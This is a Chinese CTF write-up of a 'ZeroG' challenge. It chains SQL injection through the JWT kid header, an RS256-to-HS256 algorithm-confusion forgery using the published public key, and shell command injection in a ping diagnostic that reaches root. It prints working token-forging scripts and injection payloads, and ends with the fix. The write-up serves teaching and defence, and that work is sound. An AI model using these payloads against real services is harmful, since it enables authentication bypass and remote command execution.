




# [zeroG] Stage 2 - 企业级综合管理后台 —— kid 拼进 SQL，公钥当 HMAC 密钥

> **题目类型**：JWT 认证绕过（kid 注入 + 算法混淆）→ 命令注入
>
> **Flag**：`ZeroGFlag{...}`（动态环境，每次重建实例都不一样，只有链路可复用）

---

## 题目概述

> **和 [ZeroG_2026（Stage 2）](../zerog2026-stage2/)、[Stage2 — Internal Shop](../zerog2026-stage2-ssrf/) 都不是同一题** —— 那两篇是 PHP 弱类型和 SSRF，这篇是 JWT 认证绕过。

题目给的演示账号是 `zhangsan / password123`，题面特意强调了一句「认证采用 JWT」，所以一进来先把注意力放在令牌上。



登录后能看到的只有公告、通讯录、文档三个模块，都是正常的展示，没有可动的参数。

## 信息收集

页面上翻不出东西，先扫目录。

!!! warning "这个站有个坑，会把扫描结果全部污染"

    任何不存在的路径都返回 **200 + 首页**（53671 字节）。按状态码筛会得到几百个假的「200」，只能按长度排掉：`-mc 200 -fs 53671`。

扫出来两个东西：

| 路径 | 是什么 |
|---|---|
| `/admin.html` | 后台入口，直接访问返回「权限不足，仅管理员可访问」 |
| `/jwks.json` | JWKS，里面是 RSA 公钥（`kid: ops-console-2024`） |

两个当时都用不上——`/admin.html` 要管理员身份，`jwks.json` 是验签用的公钥，不知道往哪使。先记着。

## 第一关：把 kid 拼进 SQL

先把登录拿到的令牌拆开：

```json
{"alg":"HS256","kid":"key_002","typ":"JWT"}
{"sub":"zhangsan","name":"张三","role":"user", ...}
```

`kid` 是「密钥编号」。`key_002` 这种命名说明服务端是**按 kid 去一张密钥表里挑密钥**，而不是全站共用一把。

**把 kid 改成一个带单引号的值**：

```json
"kid": "key_002'"
```

再请求 `/admin.html`，返回 **500**，Werkzeug 的调试页把整句 SQL 原样打了出来：



```sql
SELECT secret_key FROM jwt_keys WHERE key_id = 'key_002''
```

**结论：kid 是直接字符串拼进 SQL 的，没有参数化。**

### 关键理解：要控制的是「返回值」，不是「条件」

| 写法 | WHERE | 查询结果 | 能不能用 |
|---|---|---|---|
| `key_002' OR 1=1 -- ` | 恒真 | 表里**真实存在**的密钥 | ❌ 密钥你不知道，签名照样做不出来 |
| `x' union select 'abc' -- ` | 查不到 x | 你指定的 `abc` | ✅ 密钥变成你能签的东西 |

第一条是我第一反应写的 `OR 1=1`。它的问题在于只改变「选哪些行」，不改变「选出来的值」——服务端拿到的还是真密钥，你手里的签名对不上，403。

`UNION` 才是把外部值塞进结果集的办法：

```text
kid = x' union select 'abc' -- 
      │                │       └─ 注释掉原本结尾那个单引号（-- 后面必须有空格）
      │                └──────── 你指定的密钥，记牢，下一步签名要用
      └───────────────────────── 表里不存在的 key，保证第一条 SELECT 返回 0 行
```

`fetchone()` 只取第一行，所以前缀必须查不到，否则拿到的还是真密钥，注入白做。

### 三个条件必须同时满足

| # | 条件 | 写错会怎样 |
|---|---|---|
| 1 | kid 前缀在表里查不到 | 取到真密钥 → 403 |
| 2 | 签名用 `abc` 当 HMAC 密钥重算 | 签名对不上 → 403 |
| 3 | payload 里 `role` 是 `admin` | 验签过了但角色不对 → 403 |

**三种错法返回的页面一模一样**，只能逐条核对，不能靠试。

令牌用脚本生成，不要手改：

```python
import base64, hmac, hashlib, json, time

SECRET = "abc"                                  # 必须和 union select 里那个字符串一致
KID    = "x' union select '" + SECRET + "' -- "

b64 = lambda b: base64.urlsafe_b64encode(b).rstrip(b"=")
hdr = {"alg": "HS256", "typ": "JWT", "kid": KID}
now = int(time.time())
pay = {"sub": "zhangsan", "name": "张三", "role": "admin", "iat": now, "exp": now + 3600}

seg = (b64(json.dumps(hdr, separators=(",", ":")).encode()) + b"."
       + b64(json.dumps(pay, separators=(",", ":")).encode()))
sig = b64(hmac.new(SECRET.encode(), seg, hashlib.sha256).digest())
print((seg + b"." + sig).decode())
```

带上这个 token 访问 `/admin.html`，进后台：



## 第二关：alg 混淆，用公钥签名

后台「系统管理」里有个系统诊断工具，输入 `127.0.0.1` 点执行，返回：

> 内部服务令牌无效或已过期

**注意这条信息**：我现在已经是 admin 了，在这个接口面前却一文不值——它根本不查 `jwt_keys` 那张表，走的是另一套验签。

这时候 `jwks.json` 派上用场：



### 两种签名，密钥关系是反的

```text
HS256（对称）   签名 = HMAC-SHA256(密钥, header.payload)
                验签 = 用同一把密钥再算一遍

RS256（非对称） 签名 = RSA-SHA256(私钥, header.payload)   ← 只有私钥能签
                验签 = RSA-Verify(公钥, 签名)            ← 谁都能验
```

HS256 的密钥是共享的：**谁能验，谁就能签**。RS256 的公钥是公开的：**只能验，不能签**。

### 漏洞就在「同一个变量，两种用法」

```python
alg = header["alg"]                       # ← 这个值是你写的
pub = open("service_public.pem", "rb").read()

if alg == "RS256":
    jwt.decode(token, pub, algorithms=["RS256"])      # pub 当公钥用，只能验
elif alg == "HS256":                                  # 「历史兼容」分支
    hmac.new(pub, signing_input, sha256) == signature  # pub 当共享密钥用，能签
```

同一个 `pub`，上面是公钥，下面是共享密钥。**只要我把 `alg` 写成 `HS256`，再用这份公开的 `pub` 自己算一个签名，服务端会用同一份 `pub` 再算一遍，结果必然相等。**

### 把 n/e 还原成 PEM

`jwks.json` 里只有 n 和 e，要拼回 PEM（DER → base64 → 加头尾）：

```python
import base64, requests
from cryptography.hazmat.primitives.asymmetric.rsa import RSAPublicNumbers
from cryptography.hazmat.primitives import serialization

j = requests.get(BASE + "/jwks.json", timeout=20).json()["keys"][0]
n = int.from_bytes(base64.urlsafe_b64decode(j["n"] + "=="), "big")
e = int.from_bytes(base64.urlsafe_b64decode(j["e"] + "=="), "big")
pem = RSAPublicNumbers(e, n).public_key().public_bytes(
    serialization.Encoding.PEM, serialization.PublicFormat.SubjectPublicKeyInfo)
open("service_public.pem", "wb").write(pem)
```

!!! warning "HMAC 的密钥必须是 PEM 的原始字节"

    HMAC 会先把密钥 padding 到 64 字节再算，**密钥里每一个字节都参与运算**：

    - 去掉结尾的 `\n` → 变了
    - `\n` 换成 `\r\n` → 变了
    - 只取中间的 base64 段、或改用 DER → 变了

    差一个换行，服务端算出来的就和你算出来的不是一个值，返回 401。

### 签完打过去

```python
sig = b64(hmac.new(pem, seg, hashlib.sha256).digest())    # 密钥就是 pem 这个 bytes
```

header 用 `{"alg":"HS256","kid":"ops-console-2024"}`，payload 里的 `role` 必须还是 `admin`。

返回 200，`report` 里是：

```text
/bin/sh: 1: ping: not found
```

## 拿 flag

那句 `ping: not found` 说明两件事：容器里没装 ping；**这条命令是在 shell 里跑的**，而 `target` 是直接拼进去的：

```python
command_line = "%s -c 3 %s" % (command, target)
subprocess.run(command_line, shell=True, ...)
```

所以 `target` 不是只能填 IP：

```text
target = 127.0.0.1; id
→ uid=0(root)
```

flag 在环境变量 `ZeroG_2026_FLAG` 和根目录 `/flag`（400 权限，但进程就是 root，照样能读）。

!!! note "动态环境的 flag 每次都不一样"

    重建实例后 flag 会重新生成，所以这题的「答案」不可复用，**只有链路可复用**。

## 两个洞，其实是同一个错误模式

| 关卡 | 被污染的输入 | 后果 |
|---|---|---|
| 第一关 | `kid` | 拼进 SQL，你决定了「用哪把密钥」 |
| 第二关 | `alg` | 决定走哪个验签分支，公钥变成了签名密钥 |

**两个字段都是「调用方送来的元数据」，服务端却把它当成了自己的配置。** 以后读代码时看到「从请求里取字段来决定验签路径」，就该警觉。

正确写法就一句：算法白名单要按密钥来定，一把公钥只允许用于 RS256，不许跨算法家族复用。

```python
jwt.decode(token, pub, algorithms=["RS256"])     # 算法由服务端决定，不是 token
```

## 这题踩的坑

??? note "三个坑，全在工具上，不在原理上"

    **① 手改 token**

    在编辑器里手动改 base64 段，结果丢了两个 `.`、payload 段的字符被改乱、末尾还多了 `==`。服务端 `split(".")` 只拿到一段，直接判无效。

    所以看到 403 要先分清：**解析失败**和**验签失败**返回的是同一个页面。

    **② 改了 payload 忘了重签**

    改完 role 就用原来的签名发出去，永远 403。判断方法很土但有效：新 token 的第三段必须和上一轮的**不一样**。

    **③ curl 漏了 `-H`**

    `curl.exe -k -i "URL" "Cookie: xxx"` —— 第二个参数被当成第二个 URL，报 `URL rejected: Malformed input to a URL function`，而那个 403 其实是「没带 cookie」的请求返回的。

    **结论：token、签名、编码这类东西一律用脚本生成，不要手抄。手打省下的十秒钟，后面要用四十分钟还。**
